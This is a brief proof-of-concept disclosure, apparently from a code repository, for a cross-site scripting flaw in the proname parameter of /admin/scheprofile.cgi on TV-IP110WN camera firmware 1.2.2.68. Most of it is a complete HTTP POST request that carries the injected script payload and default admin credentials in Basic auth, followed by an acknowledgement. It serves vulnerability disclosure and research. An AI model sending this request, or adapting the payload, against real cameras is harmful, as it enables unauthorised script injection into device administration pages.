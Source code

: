 # PoC

There is an xss vulnerability in ip110wn, the vulnerability point is located in the proname parameter in /admin/scheprofile.cgi

#### http://ip/admin/scheprofile.cgi

```


fw_tv-ip110wn_v2(1.2.2.68)

POST /admin/scheprofile.cgi 
HTTP/1.1 Host: 192.168.73.129 
Content-Length: 112 Cache-Control: max-age=0 
Authorization: Basic YWRtaW46YWRtaW4= 
Upgrade-Insecure-Requests: 1 
Origin: http://192.168.73.129 
Content-Type: application/x-www-form-urlencoded 
User-Agent: Mozilla/5.0 (X11; Linux x86_64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/96.0.4664.110 Safari/537.36 Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,image/apng,/;q=0.8,application/signed-exchange;v=b3;q=0.9 
Referer: http://192.168.73.129/admin/scheprofile.asp?en 
Accept-Encoding: gzip, deflate 
Accept-Language: en-US,en;q=0.9 
Connection: close

mode=add&maxkey=&proname=");alert("123&name=&weekdays=radiobutton&weekday=&start_hr=&start_min=&end_hr=&end_min=
```


#### Acknowledgement

Thanks to the partners who discovered the vulnerability together：

Yi-fei Gao
